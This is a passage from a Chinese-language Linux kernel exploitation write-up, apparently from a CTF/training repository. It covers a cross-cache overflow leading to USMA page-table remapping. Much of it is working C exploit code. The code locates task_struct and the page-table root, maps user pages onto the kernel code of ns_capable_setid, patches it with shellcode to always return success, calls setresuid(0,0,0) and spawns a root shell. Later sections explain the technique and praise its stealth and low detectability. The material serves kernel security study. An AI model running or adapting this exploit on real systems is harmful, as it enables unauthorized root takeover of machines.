  size_t *current_comm_ptr = NULL;

  log.info("Reading current task_struct via physical memory mapping");
  for (round = 0; ; round++) {
      memset(page_buffer, 0, 0x1000);
      arbitrary_phys_read(((current_task_page_addr & (~0xfff)) + round * 0x40), 0, page_buffer, 0xf00);

      current_comm_ptr = (size_t*)memmem(page_buffer, 0xf00, "pwn4kernel", 10);

      // Validate current task_struct by checking critical field integrity
      if (current_comm_ptr && (current_comm_ptr[-2] > 0xffff888000000000)      // cred validity
          && (current_comm_ptr[-3] > 0xffff888000000000)                       // real_cred validity
          && (current_comm_ptr[-57] > 0xffff888000000000)                      // real_parent validity
          && (current_comm_ptr[-56] > 0xffff888000000000)) {                   // parent validity
          // Calculate field offsets based on known task_struct layout
          // mm_struct offset: 0x920, stack offset: 0x20, comm offset: 0xb70
          // mm offset index: (0xb70 - 0x920) / 8 = 74
          // stack offset index: (0xb70 - 0x20) / 8 = 362
          mm_struct_addr = current_comm_ptr[-74];
          stack_addr = current_comm_ptr[-362];
          log.success("[Round %d] Resolved kernel stack virtual address: 0x%lx", round, stack_addr);
          log.success("[Round %d] Resolved mm_struct virtual address: 0x%lx", round, mm_struct_addr);
          break;
      }
  }

  mm_struct_page = direct_map_addr_to_page_addr(mm_struct_addr);
  log.success("[Round %d] Calculated mm_struct physical page: 0x%lx", round, mm_struct_page);

  // Read mm_struct to extract page table root
  arbitrary_phys_read(mm_struct_page, 0, page_buffer, 0xf00);
  mm_struct_buf = (size_t *)((size_t)page_buffer + (mm_struct_addr & 0xfff));
  pgd_addr = mm_struct_buf[9]; // mm->pgd field index
  log.success("[Round %d] Extracted kernel page table root (PGD): 0x%lx", round, pgd_addr);
}

/*
 * ============================================================================
 * USER-SPACE MEMORY MAPPING ATTACK (USMA) PRIVILEGE ESCALATION
 * ============================================================================
 */

// Kernel symbol for ns_capable_setid function
#define NS_CAPABLE_SETID 0xffffffff810fd4b0

/**
 * Privilege escalation via User-Space Memory Mapping Attack
 *
 * This method exploits the ability to remap kernel code pages into user-space
 * memory by manipulating page table entries. The exploit creates a user-space
 * mapping that points to the physical page containing ns_capable_setid,
 * modifies the kernel code to always return success, and then triggers the
 * modified function via setresuid() to obtain root privileges.
 *
 * Technique overview:
 * 1. Resolve kernel page table hierarchy to locate target function
 * 2. Create user-space memory mapping for code modification
 * 3. Remap virtual addresses to point to kernel code physical pages
 * 4. Patch ns_capable_setid to bypass permission checks
 * 5. Trigger modified function and elevate privileges
 */
void privilege_escalation_by_usma(void) {
  char *user_code_mapping;                      // User-space mapping for kernel code
  size_t target_phys_addr;                      // Physical address of target function
  size_t target_virt_addr;                      // Virtual address of target function

  //==================================================================
  // Step 1: RESOLVE KERNEL MEMORY MANAGEMENT STRUCTURES
  //==================================================================
  log.info("Resolving kernel page table hierarchy for USMA exploitation");
  pgd_vaddr_resolve();

  //==================================================================
  // Step 2: CREATE USER-SPACE MEMORY MAPPING FOR CODE MODIFICATION
  //==================================================================
  log.info("Creating user-space memory mapping for kernel code manipulation");
  user_code_mapping = mmap((void *)0x114514000, 0x2000, PROT_READ | PROT_WRITE,
                           MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
  if (user_code_mapping == MAP_FAILED) {
    log.error("Failed to allocate user-space memory mapping for code injection");
    log.error("mmap error: %s", strerror(errno));
    exit(EXIT_FAILURE);
  }
  log.success("Established user-space mapping at address: 0x%lx", (size_t)user_code_mapping);

  // Bypass lazy allocation by writing to both pages in the mapping
  log.debug("Initializing mapping pages to bypass lazy allocation mechanism");
  for (int i = 0; i < 8; i++) {
    user_code_mapping[i] = "BinRacer"[i];                 // Write to first page
    user_code_mapping[i + 0x1000] = "BinRacer"[i];        // Write to second page
  }

  //==================================================================
  // Step 3: LOCATE TARGET KERNEL FUNCTION PHYSICAL ADDRESS
  //==================================================================
  log.info("Calculating target kernel function addresses for remapping");
  target_virt_addr = NS_CAPABLE_SETID + kernel_offset;
  log.success("Resolved ns_capable_setid virtual address: 0x%lx", target_virt_addr);

  // Resolve physical address using 3-level page table traversal
  target_phys_addr = vaddr_resolve_for_3_level(pgd_addr, target_virt_addr);
  target_phys_addr += 0x1000 * PTE_ENTRY(target_virt_addr);
  log.success("Resolved ns_capable_setid physical address: 0x%lx", target_phys_addr);

  //==================================================================
  // Step 4: REMAP USER-SPACE ADDRESSES TO KERNEL PHYSICAL PAGES
  //==================================================================
  log.info("Remapping user-space addresses to kernel code physical pages");
  vaddr_remapping(pgd_addr, 0x114514000, target_phys_addr);
  vaddr_remapping(pgd_addr, 0x114514000 + 0x1000, target_phys_addr + 0x1000);
  log.success("Completed virtual-to-physical address remapping for kernel code access");

  //==================================================================
  // Step 5: MODIFY KERNEL CODE TO BYPASS PERMISSION CHECKS
  //==================================================================
  log.info("Starting kernel code segment modification via user-space mapping");

  /**
   * Patch ns_capable_setid to always return success (1)
   *
   * The original function checks if the current process has the required
   * capabilities. By patching it to return 1 unconditionally, we bypass
   * all capability checks performed by setresuid() and similar functions.
   *
   * Patch structure:
   * 1. 0x40 bytes of NOP sled for alignment and safety
   * 2. endbr64 instruction for Control-Flow Enforcement Technology
   * 3. mov rax, 1 to set return value
   * 4. ret instruction to return to caller
   */
  size_t page_offset = NS_CAPABLE_SETID & 0xfff;
  memset(user_code_mapping + page_offset, '\x90', 0x40);  // NOP sled
  memcpy(user_code_mapping + page_offset + 0x40,
         "\xf3\x0f\x1e\xfa"             /* endbr64 */
         "\x48\xc7\xc0\x01\x00\x00\x00" /* mov rax, 1 */
         "\xc3",                        /* ret */
         12);
  log.success("Kernel code modification completed - ns_capable_setid patched to always return success");

  //==================================================================
  // Step 6: TRIGGER MODIFIED FUNCTION AND OBTAIN ROOT PRIVILEGES
  //==================================================================
  log.info("Triggering patched ns_capable_setid via setresuid() system call");
  log.info("Waiting 1 second for system state stabilization");

  sleep(1);

  // Call setresuid(0, 0, 0) which internally uses ns_capable_setid
  // The patched function will return success regardless of actual capabilities
  if (setresuid(0, 0, 0) < 0) {
    log.error("setresuid() failed to elevate privileges");
    log.error("Error: %s", strerror(errno));
  } else {
    log.success("Successfully called setresuid() with patched ns_capable_setid");
  }

  // Verify and obtain root shell
  get_root_shell();
}

/*
 * ============================================================================
 * MAIN EXPLOIT CONTROLLER
 * ============================================================================
 */
int main(int argc, char **argv) {
    log.info("===========================================================");
    log.info("           KERNEL CROSS-CACHE OVERFLOW EXPLOIT             ");
    log.info("===========================================================");
    puts("");

    //==================================================================
    // PHASE 1: ENVIRONMENT BOOTSTRAP
    //==================================================================
    log.info("===========================================================");
    log.info("PHASE 1: ENVIRONMENT INITIALIZATION & DEVICE SETUP         ");
    log.info("===========================================================");
    setup_environment();
    puts("");

    //==================================================================
    // PHASE 2: HEAP LAYOUT ENGINEERING
    //==================================================================
    log.info("===========================================================");
    log.info("PHASE 2: HEAP LAYOUT ORCHESTRATION & SPRAYING              ");
    log.info("===========================================================");
    prepare_heap_layout();
    puts("");

    //==================================================================
    // PHASE 3: CROSS-CACHE CORRUPTION & PRIMITIVE BUILDING
    //==================================================================
    log.info("===========================================================");
    log.info("PHASE 3: CORE EXPLOITATION & MEMORY PRIMITIVES             ");
    log.info("===========================================================");

    trigger_cross_cache_overflow();
    if (identify_corrupted_pipes() < 0) {
        cleanup_resources();
        exit(EXIT_FAILURE);
    }
    extract_kernel_pointers();
    if (build_arbitrary_rw_chain() < 0) {
        cleanup_resources();
        exit(EXIT_FAILURE);
    }
    puts("");

    //==================================================================
    // PHASE 4: KERNEL INTELLIGENCE GATHERING
    //==================================================================
    log.info("===========================================================");
    log.info("PHASE 4: KERNEL MEMORY RECONNAISSANCE & MAPPING            ");
    log.info("===========================================================");
    find_vmemmap_base();
    scan_for_task_structs();
    puts("");

    //==================================================================
    // PHASE 5: PRIVILEGE ESCALATION
    //==================================================================
    log.info("===========================================================");
    log.info("PHASE 5: ROOT PRIVILEGE ACQUISITION VIA USMA               ");
    log.info("===========================================================");
    privilege_escalation_by_usma();
    puts("");

    //==================================================================
    // PHASE 6: POST-EXPLOITATION CLEANUP RESOURCES
    //==================================================================
    log.info("===========================================================");
    log.info("PHASE 6: POST-EXPLOITATION CLEANUP RESOURCES               ");
    log.info("===========================================================");
    cleanup_resources();
    return 0;
}
```

### 6-1. USMA技术概述

**用户空间内存映射攻击**是一种创新的内核控制技术，它通过修改内核页表条目，将内核代码段重映射到用户空间地址，实现对内核代码的运行时修改。与内核栈利用技术不同，USMA技术直接在页表层面进行操作，无需依赖内核栈控制或代码注入。

**技术原理核心**：通过页表重定向机制，将用户空间虚拟地址映射到内核代码的物理页面，从而在用户空间直接修改内核代码段。这种方法绕过了内核保护机制，实现了对内核执行逻辑的安全修改。

### 6-2. 页表操作核心宏定义

USMA技术的核心是通过精确控制x86_64架构的四级页表系统，实现对内核内存地址空间的重映射。以下宏定义构成了页表操作的基础：

```c
/*
 * 四级页表索引计算宏定义
 * x86_64架构下，48位虚拟地址被分为四个9位的索引和一个12位的页内偏移
 */

#define PTE_OFFSET 12    // 页表项索引偏移
#define PMD_OFFSET 21    // 页中间目录索引偏移
#define PUD_OFFSET 30    // 页上级目录索引偏移
#define PGD_OFFSET 39    // 页全局目录索引偏移

#define PT_ENTRY_MASK 0b111111111UL  // 9位索引掩码

// 虚拟地址索引提取宏
#define PTE_ENTRY(addr) ((addr >> PTE_OFFSET) & PT_ENTRY_MASK)
#define PMD_ENTRY(addr) ((addr >> PMD_OFFSET) & PT_ENTRY_MASK)
#define PUD_ENTRY(addr) ((addr >> PUD_OFFSET) & PT_ENTRY_MASK)
#define PGD_ENTRY(addr) ((addr >> PGD_OFFSET) & PT_ENTRY_MASK)

// 页表属性标志定义
#define PAGE_ATTR_RW (1UL << 1)  // 可写标志
#define PAGE_ATTR_NX (1UL << 63) // 不可执行标志
```

**虚拟地址分解示意图**：

```
虚拟地址: 0xffff888012345678
├── 位[63:48]: 符号扩展位
├── 位[47:39]: PGD索引 (9位) → 0x1
├── 位[38:30]: PUD索引 (9位) → 0x0
├── 位[29:21]: PMD索引 (9位) → 0x123
├── 位[20:12]: PTE索引 (9位) → 0x45
└── 位[11:0]:  页内偏移 (12位) → 0x678
```

### 6-3. 页表操作函数实现

#### 6-3-1. 虚拟地址到物理地址解析

`vaddr_resolve`函数通过四级页表遍历，将虚拟地址转换为物理地址。这个函数模拟了硬件内存管理单元的工作流程，逐级解析页表条目，最终获取目标虚拟地址对应的物理页帧。

**四级页表遍历流程**：

```mermaid
sequenceDiagram
    participant 调用者
    participant PGD解析
    participant PUD解析
    participant PMD解析
    participant PTE解析
    participant 物理内存

    调用者->>PGD解析: 提供PGD地址和虚拟地址
    PGD解析->>物理内存: 读取PGD页
    PGD解析->>PUD解析: 传递PUD地址
    PUD解析->>物理内存: 读取PUD页
    PUD解析->>PMD解析: 传递PMD地址
    PMD解析->>物理内存: 读取PMD页
    PMD解析->>PTE解析: 传递PTE地址
    PTE解析->>物理内存: 读取PTE页
    PTE解析->>调用者: 返回物理页帧地址
```

**函数实现关键点**：

1. 逐级遍历页表层次结构
2. 处理页表条目的属性标志
3. 转换物理地址为内核虚拟地址
4. 输出详细的调试信息

#### 6-3-2. 优化三级页表解析

针对使用2MB大页的内核配置，提供优化版的地址解析函数`vaddr_resolve_for_3_level`。这个函数跳过了PTE级别，直接处理2MB大页映射，提高了地址解析效率。

**2MB大页映射优势**：

| 特性      | 标准4KB页   | 2MB大页          |
| --------- | ----------- | ---------------- |
| 页表层级  | 4级         | 3级（跳过PTE）   |
| 转换次数  | 4次内存访问 | 3次内存访问      |
| TLB利用率 | 较低        | 较高             |
| 内存占用  | 较多页表    | 较少页表         |
| 适合场景  | 通用内存    | 代码段、大缓冲区 |

#### 6-3-3. 虚拟地址重映射

`vaddr_remapping`函数修改页表条目，实现虚拟地址到物理地址的重新映射。这是USMA技术的核心，通过修改PTE条目，将用户空间虚拟地址映射到内核代码物理页。

**重映射实现步骤**：

1. 遍历页表获取目标PTE地址
2. 读取当前PTE条目值
3. 修改PTE条目指向新的物理地址
4. 设置适当的页面属性标志
5. 写回修改后的PTE条目

**PTE条目权限标志解析**：

```
PTE条目权限标志: 0x8000000000000867
位分解:
┌───────────────────────┐
│ 63: NX (No Execute) = 1 (0x8000000000000000) │
│ 7:  PS (Page Size)  = 0 (标准4KB页)          │
│ 6:  D  (Dirty)      = 0 (未修改)             │
│ 5:  A  (Accessed)   = 1 (已访问)             │
│ 4:  PCD (Cache Disable) = 0 (启用缓存)       │
│ 3:  PWT (Write Through) = 0 (回写)           │
│ 2:  U/S (User/Supervisor) = 0 (内核访问)     │
│ 1:  R/W (Read/Write) = 1 (可写)              │
│ 0:  P  (Present)    = 1 (页面存在)           │
└───────────────────────┘
```

### 6-4. 内核内存管理结构提取

`pgd_vaddr_resolve`函数从`task_struct`中提取关键的内存管理结构信息。这个函数通过扫描物理内存，定位当前进程的任务结构，并提取其中的关键指针字段。

**提取流程**：

1. 在物理内存中搜索特征字符串定位`task_struct`
2. 验证关键指针字段的有效性
3. 计算字段偏移并提取地址
4. 从`mm_struct`中提取PGD地址

**task_struct字段偏移计算**：

| 字段          | 在task_struct中的偏移 | 相对于comm的字节偏移 | 索引计算   | 实际索引 |
| ------------- | --------------------- | -------------------- | ---------- | -------- |
| `comm`        | 0xb70                 | 0                    | 0/8        | 0        |
| `cred`        | 0xb60                 | -0x10                | (-0x10)/8  | -2       |
| `real_cred`   | 0xb58                 | -0x18                | (-0x18)/8  | -3       |
| `real_parent` | 0x9a8                 | -0x1C8               | (-0x1C8)/8 | -57      |
| `parent`      | 0x9b0                 | -0x1C0               | (-0x1C0)/8 | -56      |
| `mm_struct`   | 0x920                 | -0x250               | (-0x250)/8 | -74      |
| `stack`       | 0x20                  | -0xB50               | (-0xB50)/8 | -362     |

### 6-5. USMA权限提升流程

`privilege_escalation_by_usma`函数通过六个步骤实现权限提升，展示了USMA技术的完整应用流程。

#### 步骤1：解析内核页表结构

首先通过`pgd_vaddr_resolve`函数解析内核页表层次结构，获取当前进程的PGD地址、`mm_struct`地址和内核栈地址。这是USMA技术的基础，为后续的页表操作提供了必要的上下文信息。

#### 步骤2：创建用户空间内存映射

通过`mmap`系统调用在用户空间创建内存映射区域，用于后续的内核代码修改。这个映射区域将作为内核代码的"镜像"，允许在用户空间直接访问和修改内核代码。

**映射参数说明**：

| 参数       | 值                           | 说明             |
| ---------- | ---------------------------- | ---------------- |
| 起始地址   | 0x114514000                  | 用户空间固定地址 |
| 映射大小   | 0x2000                       | 8KB，两页        |
| 保护标志   | PROT_READ \| PROT_WRITE      | 可读可写         |
| 映射标志   | MAP_ANONYMOUS \| MAP_PRIVATE | 匿名私有映射     |
| 文件描述符 | -1                           | 不关联文件       |
| 偏移       | 0                            | 从文件开始       |

#### 步骤3：定位目标内核函数

计算目标内核函数`ns_capable_setid`的虚拟地址和物理地址。这个函数是Linux内核中检查进程能力的核心函数，被`setresuid()`等系统调用使用。

**内核符号定义**：

```c
#define NS_CAPABLE_SETID 0xffffffff810fd4b0
```

**地址解析过程**：

1. 计算虚拟地址：`NS_CAPABLE_SETID + kernel_offset`
2. 使用三级页表解析获取物理地址
3. 计算页内偏移，得到精确的物理地址

#### 步骤4：重映射用户空间地址

通过`vaddr_remapping`函数修改页表条目，将用户空间地址重映射到内核代码物理页。这个步骤是USMA技术的核心，实现了用户空间对内核代码的直接访问。

**重映射原理**：

```
重映射前后对比:

重映射前:
用户空间地址: 0x114514000 → 匿名页面 (物理地址: 0xXXXXXXXX)
内核空间地址: 0xffffffff810fd4b0 → 内核代码页 (物理地址: 0xYYYYYYYY)

重映射后:
用户空间地址: 0x114514000 → 内核代码页 (物理地址: 0xYYYYYYYY)
内核空间地址: 0xffffffff810fd4b0 → 内核代码页 (物理地址: 0xYYYYYYYY)
```

#### 步骤5：修改内核代码

通过用户空间映射修改内核函数`ns_capable_setid`的代码，使其始终返回1（表示权限检查通过）。这个修改绕过了内核的能力检查逻辑，实现了权限控制机制的旁路。

**补丁代码分析**：

```assembly
; 注入的补丁代码
补丁位置:
    nop sled (0x40字节)          ; 对齐和安全性填充
    endbr64                      ; Intel CET支持
    mov rax, 0x1                 ; 设置返回值为1 (成功)
    ret                          ; 返回调用者
```

**补丁效果**：

- 函数始终返回1，表示权限检查通过
- 绕过所有能力检查逻辑
- 保持函数调用约定完整

#### 步骤6：触发修改并获取权限

调用`setresuid(0, 0, 0)`系统调用，触发修改后的`ns_capable_setid`函数，获取root权限。通过验证当前用户ID确认权限提升成功。

**setresuid系统调用**：

```c
int setresuid(uid_t ruid, uid_t euid, uid_t suid);
```

- 设置为0表示root用户
- 内部调用`ns_capable_setid`进行权限检查
- 修改后的函数直接返回成功

### 6-6. 主控制流程

USMA技术的完整执行流程通过六个阶段实现，从环境初始化到权限获取，展示了系统级内存控制技术的完整应用路径。

```mermaid
sequenceDiagram
    participant 用户进程
    participant 内核
    participant 物理内存
    participant 页表管理
    participant 系统调用

    Note over 用户进程,系统调用: 阶段1: 环境初始化
    用户进程->>内核: 打开设备文件
    用户进程->>内核: 绑定CPU核心
    用户进程->>内核: 分配管道资源

    Note over 用户进程,系统调用: 阶段2: 内存布局控制
    用户进程->>内核: 创建管道阵列
    用户进程->>内核: 交替释放策略
    用户进程->>物理内存: 建立确定性布局

    Note over 用户进程,系统调用: 阶段3: 核心操作执行
    用户进程->>内核: 触发单字节溢出
    用户进程->>内核: 建立非对称页面共享
    用户进程->>物理内存: 构建控制链

    Note over 用户进程,系统调用: 阶段4: 系统内存勘探
    用户进程->>物理内存: 扫描vmemmap区域
    用户进程->>物理内存: 定位任务结构
    用户进程->>页表管理: 提取PGD地址

    Note over 用户进程,系统调用: 阶段5: USMA权限提升
    用户进程->>内核: 创建用户空间映射
    用户进程->>页表管理: 重映射地址空间
    用户进程->>物理内存: 修改内核代码
    用户进程->>系统调用: 调用setresuid
    系统调用->>内核: 执行修改后函数
    内核-->>用户进程: 返回权限提升结果

    Note over 用户进程,系统调用: 阶段6: 资源清理
    用户进程->>内核: 关闭文件描述符
    用户进程->>内核: 释放内存资源
    用户进程->>物理内存: 清理临时数据
```

**阶段分解**：

1. **环境初始化**：建立操作基础，包括设备访问、CPU绑定和资源分配
2. **内存布局控制**：通过管道堆喷和交替释放，建立确定性的物理内存布局
3. **核心操作执行**：触发单字节溢出，建立非对称页面共享，构建控制链
4. **系统内存勘探**：扫描系统内存，定位关键数据结构，提取页表根地址
5. **USMA权限提升**：通过页表重映射修改内核代码，实现权限提升
6. **资源清理**：释放所有分配的资源，确保系统状态完整

### 6-7. 技术对比

USMA技术与内核栈控制技术在多方面存在显著差异，展示了不同的技术路径和实现策略。

| 评估维度       | 内核栈利用技术 | USMA技术       |
| -------------- | -------------- | -------------- |
| **操作目标**   | 内核栈返回地址 | 内核页表条目   |
| **修改方式**   | 注入ROP链      | 重映射代码页   |
| **执行环境**   | 内核上下文     | 用户空间上下文 |
| **修改位置**   | 内核栈内存     | 内核代码段     |
| **技术复杂度** | 中等           | 较高           |
| **隐蔽性**     | 较低           | 较高           |
| **系统影响**   | 较大           | 较小           |
| **恢复难度**   | 困难           | 容易           |
| **检测难度**   | 较易检测       | 较难检测       |
| **稳定性**     | 中等           | 高             |

### 6-8. 技术总结

USMA（用户空间内存映射攻击）技术是一种创新的内核控制方法，它通过直接修改页表条目将内核代码段重映射到用户空间，从而在用户空间实现对内核代码的运行时修改。与通过修改内核栈布局ROP链实现提权的技术路径相比，USMA技术具有本质差异：前者通过控制流劫持和代码重用实现权限提升，而USMA技术则通过页表操作直接在代码段层面修改内核执行逻辑。这种技术具有更高的隐蔽性、稳定性和兼容性，其核心优势在于绕过内存保护机制，通过页表重映射实现安全的内核代码修改，为内核安全研究提供了新的技术视角和实践案例，同时揭示了当前内存防护体系的潜在弱点，推动了内存安全技术的持续演进。

### 6-9. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 参考

- https://github.com/BinRacer/pwn4kernel/tree/master/src/PageLevelUAF2
- https://github.com/BinRacer/pwn4kernel/tree/master/src/PageLevelUAF3
- https://arttnba3.cn/2023/05/02/CTF-0X08_D3CTF2023_D3KCACHE
- https://github.com/arttnba3/Linux-kernel-exploitation/blob/main/tools/kernelpwn.h
